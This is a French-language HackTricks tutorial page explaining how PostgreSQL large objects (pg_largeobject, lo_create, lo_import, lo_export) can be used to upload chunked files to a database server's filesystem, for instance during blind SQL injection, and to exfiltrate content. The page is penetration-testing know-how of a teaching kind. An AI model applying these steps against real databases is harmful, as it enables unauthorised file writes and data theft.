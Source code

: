 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Objets volumineux PostgreSQL

PostgreSQL offre une structure connue sous le nom de **objets volumineux**, accessible via la table `pg_largeobject`, conçue pour stocker de grands types de données, tels que des images ou des documents PDF. Cette approche est avantageuse par rapport à la fonction `COPY TO` car elle permet l'**exportation de données vers le système de fichiers**, garantissant qu'une réplique exacte du fichier original est maintenue.

Pour **stocker un fichier complet** dans cette table, un objet doit être créé dans la table `pg_largeobject` (identifié par un LOID), suivi de l'insertion de morceaux de données, chacun de 2 Ko, dans cet objet. Il est crucial que ces morceaux soient exactement de 2 Ko (à l'exception possible du dernier morceau) pour garantir que la fonction d'exportation fonctionne correctement.

Pour **diviser vos données binaires** en morceaux de 2 Ko, les commandes suivantes peuvent être exécutées :
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Pour encoder chaque fichier en Base64 ou Hex, les commandes ci-dessous peuvent être utilisées :
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Important**: Lors de l'automatisation de ce processus, assurez-vous d'envoyer des morceaux de 2 Ko de bytes en texte clair. Les fichiers encodés en hex nécessiteront 4 Ko de données par morceau en raison du doublement de la taille, tandis que les fichiers encodés en Base64 suivent la formule `ceil(n / 3) * 4`.

Le contenu des objets volumineux peut être consulté à des fins de débogage en utilisant :
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Utilisation de `lo_creat` & Base64

Pour stocker des données binaires, un LOID est d'abord créé :
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Dans des situations nécessitant un contrôle précis, comme l'exploitation d'une injection SQL aveugle, `lo_create` est préféré pour spécifier un LOID fixe.

Les morceaux de données peuvent ensuite être insérés comme suit :
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Pour exporter et potentiellement supprimer l'objet volumineux après utilisation :
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Utilisation de `lo_import` & Hex

La fonction `lo_import` peut être utilisée pour créer et spécifier un LOID pour un objet volumineux :
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Après la création de l'objet, les données sont insérées par page, garantissant que chaque morceau ne dépasse pas 2 Ko :
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Pour compléter le processus, les données sont exportées et l'objet volumineux est supprimé :
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

Il est noté que **les objets volumineux peuvent avoir des ACL** (Listes de Contrôle d'Accès), restreignant potentiellement l'accès même aux objets créés par votre utilisateur. Cependant, les objets plus anciens avec des ACL permissives peuvent encore être accessibles pour l'exfiltration de contenu.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
